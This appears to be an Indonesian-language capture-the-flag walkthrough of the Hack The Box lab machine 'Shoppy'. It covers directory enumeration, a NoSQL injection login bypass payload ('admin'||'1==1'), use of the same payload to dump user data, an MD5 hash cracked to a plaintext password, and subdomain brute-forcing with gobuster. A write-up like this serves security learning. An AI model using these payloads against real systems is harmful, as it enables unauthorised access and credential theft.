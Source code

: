 ```terminal
[01:06:16] 302 -   28B  - /admin  ->  /login                                
[01:06:16] 302 -   28B  - /admin/?/login  ->  /login                        
[01:06:16] 302 -   28B  - /admin/  ->  /login                               
[01:06:31] 301 -  179B  - /assets  ->  /assets/                             
[01:06:42] 301 -  173B  - /css  ->  /css/                                   
[01:06:51] 301 -  177B  - /fonts  ->  /fonts/                               
[01:06:51] 200 -  208KB - /favicon.ico                                      
[01:06:56] 301 -  179B  - /images  ->  /images/                             
[01:07:02] 200 -    1KB - /login                                            
[01:07:02] 200 -    1KB - /login/
```
### Tampaknya /admin memberi kita pengalihan ke /login: http://shoppy.htb/login

![image](https://media.discordapp.net/attachments/740245586095112242/1023152652256821278/unknown.png?width=439&height=579)

### Kita coba untuk Authentication Bypass NoSQL Injection dengan menggunakan payload dibawah ini
```terminal
admin'||'1==1
```
![image](https://media.discordapp.net/attachments/740245586095112242/1023153276222459934/unknown.png?width=1440&height=350)

### Setelah berhasil masuk ke halaman admin, kita coba untuk mencari file konfigurasi yang terdapat pada server. dengan parameter search yang ada di halaman admin
```terminal
http://shoppy.htb/admin/search-users?username=admin'||'1==1
```
![image](https://media.discordapp.net/attachments/740245586095112242/1023152533289570365/unknown.png)

### Kita mendapatkan Informasi admin dan password yang terdapat pada file konfigurasi, kita coba dengan crack password yang kita dapatkan dengan crackstation.net
```terminal
23c6877d9e2b564ef8b32c3a23de27b2	Unknown	Not found.
6ebcea65320589ca4f2f1ce039975995	md5	remembermethisway
```
![image](https://media.discordapp.net/attachments/740245586095112242/1023154335892394124/unknown.png)


### kita coba menggunakan gobuster untuk mencari subdomain potensial untuk memperluas permukaan serangan kami. kami menggunakan GoBuster untuk mencari subdomain yang tersembunyi
```terminal
┌──(root㉿yupy)-[~]
└─# gobuster vhost -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -t 50 -u shoppy.htb
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          http://shoppy.htb
[+] Method:       GET
[+] Threads:      50
[+] Wordlist:     /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/09/24 01:08:36 Starting gobuster in VHOST enumeration mode
===============================================================
```
